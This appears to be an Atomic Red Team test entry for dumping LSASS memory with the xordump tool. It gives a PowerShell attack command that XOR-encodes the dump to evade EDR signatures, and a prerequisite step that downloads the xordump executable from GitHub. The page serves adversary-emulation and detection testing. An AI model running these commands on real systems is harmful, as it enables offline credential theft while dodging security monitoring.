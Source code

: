 


<br/>
<br/>

## Atomic Test #12 - Dump LSASS.exe using imported Microsoft DLLs
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved by
importing built-in DLLs and calling exported functions. Xordump will re-read the resulting minidump 
file and delete it immediately to avoid brittle EDR detections that signature lsass minidump files.

Upon successful execution, you should see the following file created $env:TEMP\lsass-xordump.t1003.001.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 86fc3f40-237f-4701-b155-81c01c48d697





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xordump_exe | Path to xordump | path | C:&#92;Windows&#92;Temp&#92;xordump.exe|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass-xordump.t1003.001.dmp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{xordump_exe} -out #{output_file} -x 0x41
```

#### Cleanup Commands:
```powershell
Remove-Item #{output_file} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have xordump.exe
##### Check Prereq Commands:
```powershell
if (Test-Path '#{xordump_exe}') {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/audibleblink/xordump/releases/download/v0.0.1/xordump.exe" -OutFile #{xordump_exe}
```
